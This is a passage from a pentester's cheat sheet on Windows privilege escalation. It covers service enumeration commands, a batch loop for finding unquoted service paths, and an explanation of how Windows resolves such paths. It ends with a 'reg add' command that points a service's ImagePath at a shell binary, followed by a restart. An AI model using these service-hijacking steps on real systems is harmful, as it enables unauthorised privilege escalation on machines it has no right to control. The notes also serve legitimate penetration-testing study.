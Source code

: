            #list properties
                sc qc "Vulnerable Service"
            # check privileges
                sc qprivs "Service name"
            ```

        * Unquoted Service Paths (https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/) (exploit/windows/local/trusted_service_path)
            ```
            # list unquoted services
            wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

            # batch
            @echo off
            :START_PROG
            cls
            for /f "tokens=2" %%I in ('sc query^|find "SERVICE_NAME:"') do Call :CHECK_SVR %%I
            GOTO END_PROG

            :CHECK_SVR
            sc qc %1|find "DISPLAY"
            sc qc %1|find "BINARY"
            GOTO END_PROG
            :END_PROG

            # if service contains space (eg. C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe) windows will try execute in order:
            C:\Program.exe
            C:\Program Files.exe
            C:\Program Files (x86)\Program.exe
            C:\Program Files (x86)\Program Folder\A.exe
            C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
            ```

    * Registry
        * common
            ```
            reg /?
            ```
        * permissions
            ```
            check with Registry Editor key ImagePath in HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
                - reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Apache" /t REG_EXPAND_SZ /v ImagePath /d "C:\xampp\shell.exe" /f
                - restart service
                 